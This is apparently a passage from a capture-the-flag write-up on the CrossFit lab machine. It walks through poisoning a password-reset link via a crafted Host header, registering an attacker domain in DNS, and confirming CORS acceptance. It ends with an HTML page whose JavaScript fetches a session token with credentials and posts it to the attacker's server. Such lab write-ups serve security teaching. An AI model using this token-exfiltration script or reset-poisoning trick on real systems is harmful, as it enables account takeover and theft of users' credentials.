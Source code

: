 The PHP script that is looking at the `Host` header is parsing it to form the
password reset link. It is likely to break the string apart on a special
character. But `relayd` isn’t looking at that character, but the entire host,
and matching a regex on the end. That means that a request with a `Host`
header that’s broken with a `/` could work. To test, I’ll register
`gymXcrossfit.htb` with `unbound-control`:

    
    
    oxdf@parrot$ sudo unbound-control -s 10.10.10.232 forward_add +i gymxcrossfit.htb 10.10.14.13@53
    ok
    

Now I’ll send the password reset with the following `Host` header:

    
    
    Host: gymxcrossfit.htb/employees.crossfit.htb
    

It worked:

    
    
    14:43:19.562677 IP 10.10.10.232.45069 > 10.10.14.13.53: 21358+ [1au] A? gymxcrossfit.htb. (45)
    14:43:19.575908 IP 10.10.14.13.53 > 10.10.10.232.45069: 21358 NXDomain$ 0/6/1 (1024)
    

The request is hitting `relayd` and being routed to the `employees`
application because the `Host` header ends with `employees.crossfit.htb`. The
application is handling the `Host` header as `gymxcrossfit.htb`, and sending
the password reset link to the admin with this domain, which I’ve registered
as my own, so the click leads them to my server.

Because the admin’s browser is now visiting `gymxcrossfit.htb`, additional
JavaScript requests to `crossfit-club.htb` would only be allowed if it accepts
requests from that domain. It does:

    
    
    oxdf@parrot$ curl -s -X OPTIONS -v -H "Origin: http://gymXcrossfit.htb" crossfit-club.htb/api/auth 2>&1 | grep Access-Control-Allow-Origin
    < Access-Control-Allow-Origin: http://gymXcrossfit.htb
    

#### Fetch Token

With all that in mind, I’ll update my files to reflect the new domain.

`password-reset.php`:

    
    
    <html>
      <head>
        <title>pwned</title>
      </head>
      <body>
        <script>
          var req_token = new XMLHttpRequest();
          req_token.onreadystatechange = function() {
            if (req_token.readyState == 4) {
              var token = JSON.parse(req_token.response).token
              var req_exfil = new XMLHttpRequest();
              req_exfil.open("POST", "http://gymxcrossfit.htb:81/exfil", false);
              req_exfil.send(token);
            }
          }
          req_token.open("GET", "http://crossfit-club.htb/api/auth");
          req_token.withCredentials = true;
          req_token.send();
        </script>
      </body>
    </html>
    